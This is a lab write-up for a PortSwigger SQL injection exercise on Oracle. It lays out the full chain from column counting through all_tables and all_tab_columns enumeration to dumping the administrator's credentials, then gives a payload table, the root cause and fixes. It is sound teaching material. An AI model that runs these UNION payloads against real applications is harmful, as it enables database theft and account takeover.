




# SQL injection attack, listing the database contents on Oracle

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection (Examining the database) |
| **Status** | Solved |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle` |

---

## Objective

The product category filter is vulnerable to SQL injection and the query results are reflected in the response. The goal is a full end-to-end exploit chain:

1. Determine the number of columns returned by the original query
2. Use a `UNION` injection to enumerate the database tables (Oracle uses `all_tables`)
3. Find the table that holds user credentials
4. Enumerate that table's columns (via `all_tab_columns`)
5. Identify the username and password columns
6. Retrieve the credential records
7. Log in as the `administrator` user

---

## Methodology

Full attack chain:

```
SQL injection
→ ORDER BY column count
→ UNION SELECT
→ Oracle all_tables
→ USERS_IEFSNT
→ all_tab_columns
→ USERNAME_XIAMFQ / PASSWORD_FLBZYF
→ administrator credentials
→ login
→ solved
```

---

## 1. Identifying the injection point

The injection point is the `category` parameter of the product filter:

```http
GET /filter?category=Clothing,+shoes+and+accessories
```

On this lab the backend is **Oracle**, which changes the enumeration payloads compared to the MySQL/Microsoft labs.

---

## 2. Determining the number of columns

I probed the query structure with `ORDER BY`. `ORDER BY n` sorts the results by the `n`-th column; as `n` grows past the actual column count, the database throws an error because the referenced column doesn't exist. The **highest number that works = the column count**.

In an Oracle context, `ORDER BY` is applied to the original query (the products table), so no `FROM` clause is needed for this probe.

I sent `'+ORDER+BY+3--` and got an **HTTP 500**, establishing that the query returns **2 columns**:

```sql
SELECT * FROM products WHERE category = '' ORDER BY 3--'
```



A `UNION` appends a second `SELECT` to the original result set, but both queries must return the **same number of columns** — otherwise the database rejects the query. So the injected `SELECT` also has to produce 2 columns.

---

## 3. Oracle-specific `UNION` syntax

Oracle requires every `SELECT` statement to have a `FROM` clause. When the injected query doesn't need a real table, the built-in dummy table `dual` is used. `dual` is a single-row, single-column table that exists purely to satisfy the `FROM` requirement:

```sql
'+UNION SELECT 'abc','def' FROM dual--
```

This confirms that both the column count (2) and the selected columns' types are compatible before I continue enumeration.

---

## 4. Enumerating the database tables

With the column count known, I queried the database's own metadata. Oracle keeps table information in the data dictionary view `all_tables`; each row describes one table accessible to the current user, and the `table_name` column holds its name.

```http
GET /filter?category=Clothing,+shoes+and+accessories'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

Breaking it down:

- `UNION SELECT table_name, NULL` — a 2-column select (to match the query), pulling each table's name into the first column and padding the second with `NULL`
- `FROM all_tables` — the Oracle data dictionary view that lists every table accessible to the current user
- `table_name` — the column that holds the table names, which the page now renders

The response displayed the list of database tables.



---

## 5. Finding the users table

Scanning the unfolded table names, the credential table was the one with the random suffix — `USERS_IEFSNT`. The suffix is a per-lab random value, so the exact name is different every time; what matters is identifying the table that clearly holds application users.

---

## 6. Enumerating the users table's columns

To learn the columns inside `USERS_IEFSNT`, I queried the second piece of Oracle metadata: `all_tab_columns`, which holds one row per column of the accessible tables.

```sql
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_IEFSNT'--
```

- `column_name` — the column holding column names
- `FROM all_tab_columns` — the Oracle data dictionary view for column information
- `WHERE table_name='USERS_IEFSNT'` — restrict to the users table

The response revealed:

- `EMAIL`
- `PASSWORD_FLBZYF`
- `USERNAME_XIAMFQ`

The auth-relevant columns are `USERNAME_XIAMFQ` and `PASSWORD_FLBZYF`.



---

## 7. Retrieving the credentials

I then queried the discovered table and credential columns directly. The SQL the injected query logically runs:

```sql
SELECT USERNAME_XIAMFQ, PASSWORD_FLBZYF
FROM USERS_IEFSNT;
```

Implemented as the UNION payload:

```sql
'+UNION+SELECT+USERNAME_XIAMFQ,+PASSWORD_FLBZYF+FROM+USERS_IEFSNT--
```

The application rendered each username paired with its password, including the `administrator` account.



---

## 8. Logging in as administrator

Using the `administrator` credentials retrieved in step 7, I authenticated to the application and the lab was marked solved. (The actual password is `<REDACTED_ADMIN_PASSWORD>` and is deliberately not reproduced here.)

---

## Oracle metadata vs `information_schema`

MySQL/Microsoft store schema metadata in the `information_schema` schema (`.tables` and `.columns`). Oracle exposes the same information through its **data dictionary**, a set of read-only views:

| MySQL / SQL Server | Oracle |
|---|---|
| `information_schema.tables` | `all_tables` |
| `information_schema.columns` | `all_tab_columns` |

- **`dual`** — a built-in dummy table used when a `SELECT` has no real table to read from (Oracle forces a `FROM` by grammatically)
- **`all_tables`** — data dictionary view listing tables accessible to the current user
- **`all_tab_columns`** — data dictionary view listing the columns of those tables

---

## Payloads

| Step | Payload |
|---|---|
| Column count | `'+ORDER+BY+3--` |
| Oracle syntax check | `'+UNION+SELECT+'abc','def'+FROM+dual--` |
| Enumerate tables | `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` |
| Enumerate columns | `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_IEFSNT'--` |
| Retrieve credentials | `'+UNION+SELECT+USERNAME_XIAMFQ,+PASSWORD_FLBZYF+FROM+USERS_IEFSNT--` |

---

## Why It Works

The original query is roughly:

```sql
SELECT * FROM products WHERE category = '<category>'
```

- `ORDER BY 3` failing proves the query returns 2 columns, so the injected `SELECT` must also return 2 — a `UNION` with a mismatched column count is rejected.
- On Oracle, every `SELECT` needs a `FROM`; `FROM dual` satisfies this for probes that reference no real table.
- Metadata enumeration works because the database exposes its **own structure** as ordinary queryable views (`all_tables`, `all_tab_columns`). Queries let an attacker map every table and column without guessing.
- Once the table (`USERS_IEFSNT`) and its columns (`USERNAME_XIAMFQ`, `PASSWORD_FLBZYF`) are known, a direct `UNION SELECT` of those columns dumps the accounts into the reflected response.
- The `--` comment suppresses the rest of the original query so the injected SQL parses cleanly.

---

## Root Cause

The `category` parameter is concatenated directly into the SQL query with no parameterization or validation:

```python
query = "SELECT * FROM products WHERE category = '" + category + "'"
```

This allows an attacker to extend a single query into a full data-theft pipeline via `UNION`.

---

## Impact

Full database disclosure: schema, table and column names, and arbitrary credential data can be dumped through the reflected result. Here it meant user credentials → administrator account takeover.

---

## Fix

- **Parameterized queries / prepared statements** keep user input out of SQL syntax
- **Validate/whitelist** the `category` parameter against an allowlist of categories or safe values
- **Least privilege** for the DB account so Oracle data dictionary views and credential tables aren't readable
- **Restrict error verbosity** so `ORDER BY`/`UNION` probes don't leak structural feedback

---

## Key Takeaways

- Oracle data dictionary views (`all_tables`, `all_tab_columns`, `dual`) replace `information_schema` from MySQL labs
- Every Oracle `SELECT` needs a `FROM` clause — `FROM dual` is the standard placeholder when no real table is needed
- Column names can be randomized/suffixed in real apps, so enumerate before extracting
- Always find the column count first; a `UNION` with a mismatch just errors
- Credentials in DBs are often stored in plaintext — hash and salt them

---

## Related Labs

- [03 - SQL injection attack, querying the database type and version on Oracle](../03%20-%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle/README.md) — same Oracle backend; version gives way to full `all_tables` enumeration
- [06 - SQL injection attack, listing the database contents on non-Oracle databases](../06%20-%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/README.md) — the same enumeration method against a non-Oracle schema

---

## References

- [PortSwigger: SQL injection](https://portswigger.net/web-security/sql-injection)
- [PortSwigger: SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PortSwigger: Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [Oracle: data dictionary views](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/dictionary.html)
- [DB Fiddle / Oracle: the DUAL table](https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/SELECT.html)
- [OWASP: active SQL injection prevention cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)